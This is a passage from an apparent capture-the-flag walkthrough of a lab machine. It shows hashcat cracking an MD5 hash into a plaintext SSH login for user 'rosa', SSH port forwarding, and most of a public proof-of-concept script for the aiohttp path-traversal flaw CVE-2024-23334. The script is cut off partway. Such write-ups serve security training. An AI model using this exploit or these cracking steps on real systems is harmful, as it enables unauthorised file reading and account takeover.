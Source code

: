 We can now use hashcat to decide the MD5 password.
```
hashcat -m 0 -a 0 "63ed86ee9f624c7b14f1d4f43dc251a5" /usr/share/wordlists/rockyou.txt
```

Success we have Rosa's password.
```
rosa:unicorniosrosados
```

With that we can SSH into the machine as Rosa.
>![[Pasted image 20250128210758.png]]

---

# Privilege Escalation

Taking a look at the running processes we can see that port 8080 is open only to internal traffic.
We forward the port to our localhost and view the webpage.
```
ssh -L 8888:localhost:8080 rosa@10.10.11.38
```
>![[Pasted image 20250128211528.png]]

Running whatweb on the domain we can see that it is running a vulnerable version of aiohttp/3.9.1.(CVE-2024-23334).
```
whatweb http://127.0.0.1:8888
```
>![[Pasted image 20250128215503.png]]

Looking up this info we can find PoC code. I used the one from wizarddos.
```
import argparse
import http.client
import textwrap
import urllib


def exploit(url, file, dir):
    parsed_url = urllib.parse.urlparse(url)
    conn = http.client.HTTPConnection(parsed_url.netloc)

    traversal  = "/.."
    payload = dir
    for i in range(15):
        payload += traversal

        print(f'''[+] Attempt {i}
                    Payload: {payload}{file}
        ''')

        conn.request("GET", f"{parsed_url.path}{payload}{file}")
        res = conn.getresponse()
        result = res.read()
        print(f"                    Status code: {res.status}")

        if res.status == 200:
            print("Respose: ")
            print(result.decode())
            break



if __name__ == "__main__":
    parser = argparse.ArgumentParser(
        description="PoC for CVE-2024-23334. LFI/Path-Traversal Vulnerability in Aiohttp",
```